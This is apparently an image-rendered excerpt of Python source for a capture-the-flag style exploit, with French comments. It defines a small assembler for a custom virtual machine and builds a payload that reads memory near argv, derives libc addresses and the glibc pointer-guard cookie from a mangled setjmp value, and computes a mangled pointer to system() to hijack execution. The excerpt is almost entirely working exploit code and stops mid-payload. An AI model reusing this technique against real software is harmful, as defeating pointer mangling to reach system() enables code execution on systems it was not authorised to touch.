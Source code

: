 ```python
        self._mode32()
        assert r <= 8
        self.buf += p32(0x00BB0000 + r)  # nop

    def mov(self, r1, r2):
        self._mode64()
        self.buf += p64(0x1700 + (r2 << 4) + r1)

    def push(self, *regs):
        if len(regs) > 6:
            raise ValueError("too many regs")
        self._mode64()
        n = len(regs)
        self.buf += bytes([n << 4, 0x65] + list(regs) + (6 - n) * [0])

    def pop(self, *regs):
        if len(regs) > 6:
            raise ValueError("too many regs")
        self._mode64()
        n = len(regs)
        self.buf += bytes([n << 4, 0x56] + list(regs) + (6 - n) * [0])

    def pushimm(self, imm: int):
        self._mode64()
        self.buf += bytes([0x0f, 0x65])
        self.buf += imm.to_bytes(6, "little")

    def syscall(self):
        self._mode64()
        self.buf += bytes([0, 0x90, 0, 0, 0, 0, 0, 0])

A = ASM()
# constantes dans R1, R2, R3, R4
A.pushimm(0x8220)
A.pushimm(3975985) # const2
A.pushimm(3789216) # const3
A.pushimm(35720)   # const4
A.pushimm(4440)    # const5
A.pop(5, 4, 3, 2, 1)
# base RAM - 8 = R27 + 4440
A.op("add", 6, 5, reg=27)
# R7 = R37 + 0x8220 (&argv)
# R8 = R7-base
# R5 = argv
A.op("add", 7, 1, reg=37)
A.op("sub", 8, 7, reg=6)
A.pop(5)
# R8 = &argv[-16]
# R5 = argv[-16] (mangled_setjmp)
A.op("sub", 8, 5, imm=16*8)
A.op("sub", 8, 8, reg=6)
A.pop(5)
# Compute mangled_system
# __libc_start_main+159 = R23 - 3975985
# __libc_system = R23 - 3789216
# cookie = mangled_setjmp ^ (__libc_start_main+159 << 17)
# mangled_system = cookie ^ (__libc_system << 17)
A.op("add", 1, 0, reg=23)
A.op("sub", 2, 1, reg=2) # R2 = R23 - Const2
A.op("sub", 3, 1, reg=3) # R3 = R23 - Const3
A.op("lsh", 2, 2, imm=17) # LSH 17
A.op("lsh", 3, 3, imm=17) # LSH 17
A.op("xor", 5, 5, reg=2) # R5=cookie
```